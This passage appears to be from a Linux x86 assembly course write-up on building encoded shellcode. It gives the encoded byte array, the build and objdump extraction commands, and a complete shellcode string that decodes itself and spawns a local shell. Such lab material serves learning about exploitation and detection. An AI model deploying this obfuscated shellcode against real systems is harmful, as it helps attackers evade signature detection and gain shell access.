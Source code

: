     0x31,0xaa,0xc0,0x50,0xaa,0xaa,0x68,0x62,0x61,0xaa,0xaa,0xaa,0x73,0x68,0x68,0x62,0xaa,0xaa,0xaa,0xaa,0x69,0x6e,0x2f,0x68,0x2f,0xaa,0xaa,0xaa,0xaa,0xaa,0x2f,0x2f,0x2f,0x89,0xe3,0x50,0xaa,0xaa,0xaa,0xaa,0xaa,0xaa,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xaa,0xaa,0xaa,0xaa,0xaa,0xaa,0xaa,0xcd,0x80,0xbb,0xbb,0xbb,0xbb


Finally we compile our shellcode by doing the following steps :

First, we compiled our assembly code :

    nasm -f elf -o ExecEncodedShellcode.o ExecEncodedShellcode.nasm
    ld -m elf_i386 ExecEncodedShellcode.o -o ExecEncodedShellcode


Then, we used the objdump tool to retrieve our shellcode intructions :

    objdump -d ExecEncodedShellcode|grep '[0-9a-f]:'|sed -n '1!p'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

Which gave the following result:
    
    "\xeb\x3f\x31\xf6\x5e\x31\xd2\xb2\x01\x31\xdb\x31\xff\x89\xf7\x31\xc0\x31\xc9\x8d\x3c\x17\xb0\x02\xf6\xe2\x01\xd8\x89\xc3\x31\xc9\x60\x31\xc0\x8d\x04\x0f\x01\xcb\x81\x3c\x1e\xbb\xbb\xbb\xbb\x74\x15\x8d\x14\x1e\x8a\x1a\x88\x18\x61\x41\x39\xd1\x7e\xe2\x42\xeb\xd2\xe8\xbc\xff\xff\xff\x31\xaa\xc0\x50\xaa\xaa\x68\x62\x61\xaa\xaa\xaa\x73\x68\x68\x62\xaa\xaa\xaa\xaa\x69\x6e\x2f\x68\x2f\xaa\xaa\xaa\xaa\xaa\x2f\x2f\x2f\x89\xe3\x50\xaa\xaa\xaa\xaa\xaa\xaa\x89\xe2\x53\x89\xe1\xb0\x0b\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xcd\x80\xbb\xbb\xbb\xbb"



And finally we insert the shellcode in our C file, compiled it and launched it :


**Result**

<img src="/assets/slae32-img/assignment4/final.PNG" alt="drawing" style="width:900px;"/>
